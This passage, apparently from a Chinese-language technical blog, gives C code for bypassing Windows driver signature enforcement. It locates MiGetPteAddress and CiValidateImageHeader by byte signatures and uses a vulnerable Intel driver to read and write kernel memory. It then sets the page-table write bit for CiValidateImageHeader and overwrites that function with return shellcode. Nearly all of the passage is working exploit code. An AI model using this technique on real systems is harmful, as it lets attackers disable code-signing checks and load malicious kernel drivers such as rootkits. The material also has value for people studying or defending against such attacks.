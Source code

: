 ```c

...
const char MiGetPteAddressSig[] = { 0x48, 0xc1, 0xe9, 0x09, 0x48, 0xb8, 0xf8, 0xff, 0xff, 0xff, 0x7f, 0x00, 0x00, 0x00, 0x48, 0x23, 0xc8, 0x48, 0xb8 };

const char CiValidateImageHeaderSig[] = { 0x48, 0x33, 0xc4, 0x48, 0x89, 0x45, 0x50, 0x48, 0x8b };

const int CiValidateImageHeaderSigOffset = 0x23;

gadgetSearch = signatureSearchInSection((char*)".text", (char*)kernelBase, MiGetPteAddressSig, sizeof(MiGetPteAddressSig));

MiGetPteAddress = gadgetSearch - kernelBase + sizeof(MiGetPteAddressSig);

gadgetSearch = signatureSearchInSection((char*)"PAGE", (char*)ciMap, CiValidateImageHeaderSig, sizeof(CiValidateImageHeaderSig));

CiValidateImageHeader = gadgetSearch - ciMap + ciBase - CiValidateImageHeaderSigOffset;
...
```

​    完成后，我们需要读取PTE基地址：

```c
// Use intel driver vuln to copy kernel memory between user/kernel space
copyKernelMemory(devHandle, (ULONG_PTR)&pteBase, MiGetPteAddress, sizeof(void*))
```

​    接下来，我们需要读取MiGetPteAddress的PTE条目，以便进行修改：

```c
ULONG_PTR getPTEForVA(ULONG_PTR pteBase, ULONG_PTR address) {
	ULONG_PTR PTEBase = pteBase;
	address = address >> 9;
	address &= 0x7FFFFFFFF8;
	address += (ULONG_PTR)PTEBase;

	return address;
}

ULONG_PTR pteAddress = getPTEForVA(pteBase, CiValidateImageHeader);
copyKernelMemory(devHandle, (ULONG_PTR)&pte, pteAddress, 8);
```

​    更新页面的写入位（write bit):

```c
pte |= 2;
```

​     最后，patch它：

```c
copyKernelMemory(devHandle, (ULONG_PTR)origMem, CiValidateImageHeader, sizeof(origMem));

copyKernelMemory(devHandle, CiValidateImageHeader, (ULONG_PTR)retShell, sizeof(retShell));
```
